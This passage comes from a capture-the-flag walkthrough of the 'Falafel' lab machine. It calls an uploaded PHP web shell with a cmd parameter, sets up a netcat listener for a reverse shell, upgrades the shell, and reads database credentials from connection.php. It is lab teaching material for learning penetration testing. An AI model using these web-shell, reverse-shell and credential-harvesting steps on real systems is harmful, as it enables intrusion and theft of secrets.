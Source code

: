 This looks good, let’s call our saved php script with the “cmd” parameter.

```text
http://10.10.10.73/uploads/0202-1852_127546ec6e8c49a3/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa.php?cmd=whoami
```

We get the following result.

![](https://miro.medium.com/max/1125/1*ErlGcMN0FHjZ3Ec1Uj6mwg.png)

We have code execution! Intercept the request in Burp and send it to Repeater. Then visit [pentestmonkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and get a bash reverse shell to add in the _cmd_ parameter. Don’t forget to URL encode it \(Ctrl + U\).

![](https://miro.medium.com/max/693/1*YReF6__8AI9VqillMvHiHg.png)

Set up a listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Send the request.

![](https://miro.medium.com/max/984/1*ge3lpKFz-S4Dpa5jRFqhEA.png)

We get a shell! Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the _user.txt_ flag.

The first thing I usually do when I get initial access through a web application, is look for credentials that the application is using. In the _/var/www/html_ directory, we find credentials in the _connection.php_ file.

```text
www-data@falafel:/var/www/html$ cat connection.php 
<?php
   define('DB_SERVER', 'localhost:3306');
   define('DB_USERNAME', 'moshe');
   define('DB_PASSWORD', 'falafelIsReallyTasty');
   define('DB_DATABASE', 'falafel');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
   // Check connection
   if (mysqli_connect_errno())
   {
      echo "Failed to connect to MySQL: " . mysqli_connect_error();
   }
?>
```
